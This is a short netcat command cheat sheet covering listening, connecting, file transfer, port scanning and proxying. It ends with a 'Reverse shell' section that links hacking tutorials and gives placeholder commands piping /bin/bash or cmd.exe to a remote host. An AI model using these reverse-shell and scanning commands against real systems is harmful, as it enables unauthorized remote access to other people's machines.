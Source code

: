 # nc

> Reads and writes tcp or udp data.

- Listen on a specified port:

`nc  -l {{port}}`

- Connect to a certain port (you can then write to this port):

`nc {{ip_address}} {{port}}`

- Set a timeout:

`nc -w {{timeout_in_seconds}} {{ipaddress}} {{port}}`

- Serve a file:

`nc -l {{port}} < {{file}}`

- Receive a file:

`nc {{ip_address}} {{port}} > {{file}}`

- Server stay up after client detach:

`nc -k -l {{port}}`

- Client stay up after EOF:

`nc -q {{timeout}} {{ip_address}}`

- Port scanning:

`nc -v -z {{ip_address}} {{port}}`

- Proxy and port forwarding:

`nc -l {{port}} | nc {{hostname}} {{port}}`
- Open a listening socket

`nc -lU socket.sock`
`echo mytext | nc -U socket.sock`

- Send data 

`nc -l {port}`
`echo "test" | nc {host} {port} `

- Reverse shell
`https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/`
`http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet`
`nc -lvp {port}`
`linux: nc {host} {port} -e /bin/bash`
`windows: nc.exe {host} {port} -e cmd.exe`
